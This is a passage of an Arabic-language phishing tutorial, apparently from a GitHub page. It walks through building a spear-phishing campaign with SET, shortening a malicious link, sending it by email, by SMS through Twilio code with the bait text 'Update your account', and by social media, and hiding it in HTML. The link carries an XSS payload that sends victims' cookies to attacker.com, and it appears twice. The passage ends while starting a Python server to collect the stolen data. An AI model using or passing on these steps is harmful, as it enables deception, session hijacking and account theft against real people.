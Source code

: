      - اختار "Social Engineering Attacks" > "Spear-Phishing Attack Vectors" > "Create a FileFormat Payload".
     - صمم الإيميل وحط الرابط الخبيث.

2. **تقصير الرابط (URL Shortening):**
   - الروابط الطويلة بتبان مريبة، فاستخدم خدمة زي **bit.ly** أو **tinyurl**:
     - زي:
       ```
       bit.ly/xyz
       ```
     - الرابط الحقيقي:
       ```
       example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
       ```

3. **إرسال الرابط عبر قنوات مختلفة:**
   - **إيميلات**: استخدم SMTP Server أو أدوات زي **SET**.
   - **رسايل SMS**: استخدم خدمات زي **Twilio**:
     ```python
     from twilio.rest import Client

     account_sid = 'your_account_sid'
     auth_token = 'your_auth_token'
     client = Client(account_sid, auth_token)

     message = client.messages.create(
         body='Update your account: bit.ly/xyz',
         from_='+1234567890',
         to='+0987654321'
     )
     ```
   - **مواقع التواصل**: ابعت الرابط في رسايل خاصة أو مجموعات.

4. **إخفاء الرابط (Obfuscation):**
   - استخدم HTML أو JavaScript عشان تخفي الرابط في الإيميل:
     ```html
     <a href="example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>">Click Here</a>
     ```

---

**خلاصة بالعامية:**
حملة الـ Phishing زي إنك بتصطاد سمكة. لازم الطُعم (الإيميل أو الرسالة) يكون مقنع، والرابط يبقى مختصر ومخفي عشان الضحية تقع في الفخ وتفتح الرابط.

---

#### **الخطوة 4: إعداد سيرفر لاستقبال البيانات**
لو الـ Payload بيسرق بيانات زي الكوكيز، لازم يكون عندك سيرفر جاهز.

1. **إعداد سيرفر بـ Python:**
   - اكتب سكربت:
     ```python
     from http.server import HTTPServer, BaseHTTPRequestHandler
